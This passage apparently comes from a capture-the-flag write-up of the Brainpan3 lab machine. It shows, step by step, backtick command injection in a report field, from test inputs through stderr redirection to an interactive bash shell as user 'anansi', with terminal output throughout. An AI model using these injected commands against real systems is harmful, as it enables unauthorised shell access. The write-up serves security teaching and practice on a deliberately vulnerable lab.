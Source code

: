 ```
$ `notacommand`

REPORT [`notacommand`rst report!@ing]
SENDING TO REPORT MODULE

sh: 1: notacommand: not found
```

Que wha?! We are given a command not found error message when trying to execute commands via back ticks. Could this mean command execution?

```
$ `whoami`

REPORT [`whoami`mand`rst report!@```]
SENDING TO REPORT MODULE

sh: 1: Syntax error: EOF in backquote substitution
```

Hmm.. we are given error messages. Could we receive command output by piping to stderr?

```
$ `whoami >&2`

REPORT [`whoami >&2`4]
SENDING TO REPORT MODULE

anansi
```

Nice! Now the fun part, let's try to get a shell. 

```
ENTER COMMAND: $ 1

ENTER REPORT, END WITH NEW LINE:

`/bin/bash -i >&2`

REPORT [`/bin/bash -i >&2`]
SENDING TO REPORT MODULE

bash: cannot set terminal process group (5677): Inappropriate ioctl for device
bash: no job control in this shell
anansi@brainpan3:/$ whoami
anansi
anansi@brainpan3:/$ uname -a
Linux brainpan3 3.16.0-41-generic #55~14.04.1-Ubuntu SMP Sun Jun 14 18:44:35 UTC 2015 i686 i686 i686 GNU/Linux
anansi@brainpan3:/$  
```

And we have a user shell! As normal, let's modify our exploit script to retrieve a shell for us automagically:
